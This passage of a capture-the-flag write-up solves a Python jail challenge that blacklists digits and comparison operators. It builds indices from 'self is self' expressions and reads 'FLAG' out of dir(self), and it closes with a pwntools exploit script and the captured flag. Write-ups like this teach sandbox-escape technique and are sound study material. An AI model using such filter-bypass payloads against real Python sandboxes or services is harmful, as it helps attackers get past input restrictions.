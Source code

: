 The `__getitem__` method might be interesting for us, because it takes an index as a parameter and returns the element that is at that index inside of a list.  
That’s perfect, but now we have another problem: we are not able to use numeric characters inside of our payload, so how can we solve this problem?  

We must first find a way to produce integer values as output, we may use a function that returns an integer and then use `+` or `*` to calculate the right index.  
But we liked to think about it in an easier way: we know that conditional expressions return `True` or `False`, in short: 1 or 0, so we could sum the result of conditional expression in order to create the right index.

But, again, we have something that blocks us: `>`, `<` and `=` are blacklisted, but these operators are not the only available, we can still use the `is` keyword (it checks if 2 objects are the same object).

To create 1s and 0s we decided to use these expressions:  
- `self is self` -> True -> 1  
- `self is dir(self)` -> False -> 0  

**Now we have everything we need to write our payload and obtain the flag.  

We can divide the payload in 4 parts, each part will return a character we need to compose the string "FLAG":  
- ‘F’ is at index 1: `dir(self).__getitem__(self is self)` 
- ‘L’ is at index 3: `dir(self).__getitem__((self is self)+(self is self)+(self is self))`
- ‘A’ is at index 0: `dir(self).__getitem__(self is dir(self))`  
- ‘G’ is at index 2: `dir(self).__getitem__((self is self)+(self is self))`

Now we can concatenate these chars to create our final payload:

```python
self.get_var(dir(self).__getitem__(self is self) + 
			 dir(self).__getitem__((self is self) +	(self is self) + (self is self)) + 
			 dir(self).__getitem__(self is dir(self)) + 
			 dir(self).__getitem__((self is self) + (self is self)))
```

---

## Final Exploit:

```python
from pwn import *

r = remote("misc.snakectf.org", 1700)

F = "dir(self).__getitem__(self is self)"
L = "dir(self).__getitem__((self is self) + (self is self) + (self is self))"
A = "dir(self).__getitem__(self is dir(self))"
G = "dir(self).__getitem__((self is self) + (self is self))"

payload = f"self.get_var({F}+{L}+{A}+{G})".encode()
r.sendlineafter(b"> ", payload)
print(r.recvline().strip())

r.close()
```

---

## Flag:

#### `snakeCTF{7h3_574r_d1d_7h3_j0b}`
